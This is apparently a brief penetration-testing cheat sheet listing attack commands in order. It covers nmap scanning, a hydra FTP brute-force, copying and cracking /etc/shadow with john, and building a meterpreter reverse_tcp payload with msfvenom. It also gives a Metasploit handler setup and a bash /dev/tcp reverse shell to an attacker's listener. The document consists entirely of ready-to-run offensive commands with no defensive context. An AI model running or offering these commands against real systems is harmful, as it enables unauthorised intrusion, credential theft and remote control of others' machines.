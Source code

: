 ## Search Host
  sudo nmap -sP 192.168.1.0/24

### Search open Port
  sudo nmap -sV -O -p- <IP>

### confirm service name
  sudo nmap -p<port> <IP>

### connect nc
  sudo nc -nv <IP> <port>

### list attack
  sudo hydra -L user.lst -P pass.lst -t 4 <IP> ftp

### analyze password
  sudo cp /etc/shadow <passowordsfile>
  sudo john --incremental <passwordsfile>
  
## msfconsole

sudo msfconsole
msf > show exploits
msf > search type:payload reverse_tcp platform:linux

### create payload

msf > msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.2 -f sh -o /home/tochibow9/evil.sh

### reverse shell

msf > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.100.2
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > exploit 

### reverse shell for standard

attacker> nc -nvlp 5555
victim> bash -i >& /dev/tcp/<attackerIP>/5555 0>&1

